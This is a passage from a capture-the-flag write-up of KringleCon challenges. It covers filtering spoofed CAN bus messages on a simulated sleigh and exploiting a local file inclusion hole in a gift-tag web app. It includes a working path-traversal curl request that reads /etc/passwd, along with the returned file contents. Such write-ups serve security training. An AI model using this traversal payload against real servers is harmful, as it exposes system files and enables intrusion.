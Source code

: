 After [helping out Wunorse](#can-bus-investigation), he told us this:
> The brakes seem to shudder when I put some pressure on them, and the doors are acting oddly.

According to [the source code](https://github.com/zombieCraig/ICSim/blob/master/icsim.c#L34), bus ID `19B` is for door-related operations - notably locking and unlocking. Watching [the CAN terminal](https://kringlecon.com/?modal=challenge&rid=090ed0c7-0661-4b88-abcf-868904157e4a&challenge=candbus) for Santa's Sleigh for a bit, we eventually see the following code cross the bus without the Sleigh even turned on:

`19B#0000000F2057`

Filtering that out should handle the less severe problem - the doors acting up.

In order to have a hope of seeing anything else going on, I temporarily exclude messages for the RPM bus - ID `244` - entirely.

Applying the brakes to 100, or 0x64, we can see that applying the brakes sends the following CAN message:

`080#000064`

But - we can also see the following message being sent in, presumably causing the "shuddering" - `080#FFFFF3`. To counteract that, I'll exclude messages for bus ID `080` for any value less than 0 - I assume that the values are signed, making 0xFFFFF3 equal to -13.

With the following filters in place, we get a message that we've successfuly "defrosted" the sleigh:
```
ID  | Operator | Criterion
-----------------------------
19B | Equals   | 0000000F2057
080 | Less     | 000000000000
```

### Broken Tag Generator
>Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.

Now that we can pose as Santa, we can access the Tag Generator in the wrapping room.

Upon accessing the terminal, we're faced with [a web application to create gift tags](https://tag-generator.kringlecastle.com/).
Out of a love for simplicity, I open up my browser's development console to observe network requests. After uploading an image and opening the clipart slide-in, I noticed a GET request to `https://tag-generator.kringlecastle.com/image?id=1a2566c2-4917-4323-b163-9b6aa0dded77.png`. The fact that the `id` parameter is a filename leads me to believe that this application is likely susceptible to a local file inclusion (LFI) exploitation - [CWE-98](https://cwe.mitre.org/data/definitions/98.html). A quick test confirms this:
```
curl 'https://tag-generator.kringlecastle.com/image?id=../../../../etc/pas
swd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```